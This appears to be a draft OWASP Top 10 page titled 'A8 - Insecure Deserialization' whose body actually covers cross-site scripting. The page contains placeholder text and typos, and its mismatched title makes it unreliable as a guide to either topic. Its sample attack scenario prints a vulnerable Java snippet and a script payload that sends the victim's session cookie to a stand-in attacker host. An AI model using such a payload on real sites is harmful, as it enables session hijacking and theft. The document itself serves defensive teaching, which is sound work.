 ```yaml
---

title: A8 - Insecure Deserializatin
layout: full-width
top-ten: 7
exploitability: 3
prevalance: 3
detectability: 3
techincal: 2
og-summary: This is the summar that goes in og meta tags so when shared on social/slack it has a customized summary of the page as opposed to random front content

---
```


## A8 - Insecure Deserializatin
<p> <i class="fa fa-exclamation-circle"  style="color:orange; padding-right: 5px"></i>Exploitablity
  <i class="fa fa-exclamation-triangle"  style="color:red; padding-left: 20px; padding-right: 5px"></i>Prevalence
  <i class="fa fa-exclamation-triangle"  style="color:red; padding-left: 20px; padding-right: 5px"></i>Detectability
  <i class="fa fa-skull-crossbones" style="color:black; padding-left: 20px; padding-right: 5px"></i>Technnical
</p>

#### Threat Agent / Attack Vectors
Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks.

##### Security Weakness
XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications.<br/>Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET.

##### Impacts
The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim.
 
### Is the Applicaton Vulnerable
There are three forms of XSS, usually targeting users' browsers:
- **Reflected XSS**: The application or API includes unvalidated and unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.
- **Stored XSS**: The application or API stores unsanitized user input that is viewed at a later time by another user or an administrator. Stored XSS is often considered a high or critical risk.
- **DOM XSS**: JavaScript frameworks, single-page applications, and APIs that dynamically include attacker-controllable data to a page are vulnerable to DOM XSS. Ideally, the application would not send attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover, MFA bypass, DOM node replacement or defacement (such as trojan login panels), attacks against the user's browser such as malicious software downloads, key logging, and other client-side attacks.

### How to Prevent
Preventing XSS requires separation of untrusted data from active browser content. This can be achieved by:
- Using frameworks that automatically escape XSS by design, such as the latest Ruby on Rails, React JS. Learn the limitations of each framework's XSS protection and appropriately handle the use cases which are not covered.
- Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The <u>[[XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet|OWASP Cheat Sheet 'XSS Prevention']]</u> has details on the required data escaping techniques.
- Applying context-sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the <u>[[DOM_based_XSS_Prevention_Cheat_Sheet|OWASP Cheat Sheet 'DOM based XSS Prevention']].
- Enabling a <u>[https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP Content Security Policy (CSP)]</u> as a defense-in-depth mitigating control against XSS. It is effective if no other vulnerabilities exist that would allow placing malicious code via local file includes (e.g. path traversal overwrites or vulnerable libraries from permitted content delivery networks).

### Sample Attack Scenarios

Scenario #1: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

```
(String) page += "<input name='creditcard' type='TEXT'<br>value='" + request.getParameter("CC") + "'>";
```

The attacker modifies the ‘CC’ parameter in the browser to:

```
'><script>document.location=<br/>'<nowiki>h</nowiki>ttp://www.attacker.com/cgi-bin/cookie.cgi?
```

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

Note: Attackers can use XSS to defeat any automated Cross-Site Request Forgery (CSRF) defense the application might employ.

### References

OWASP
- [[OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016|OWASP Proactive Controls: Encode Data]]
- [[OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016|OWASP Proactive Controls: Validate Data]]
- [[:Category:OWASP_Application_Security_Verification_Standard_Project|OWASP Application Security Verification Standard: V5]]
- [[Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)|OWASP Testing Guide: Testing for Reflected XSS]]
- [[Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)|OWASP Testing Guide: Testing for Stored XSS]]
- [[Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001)|OWASP Testing Guide: Testing for DOM XSS]]
- [[XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet|OWASP Cheat Sheet: XSS Prevention]]
- [[DOM_based_XSS_Prevention_Cheat_Sheet|OWASP Cheat Sheet: DOM based XSS Prevention]]
- [[XSS_Filter_Evasion_Cheat_Sheet|OWASP Cheat Sheet: XSS Filter Evasion]]
- [[OWASP_Java_Encoder_Project|OWASP Java Encoder Project]]

External
- [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
- [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
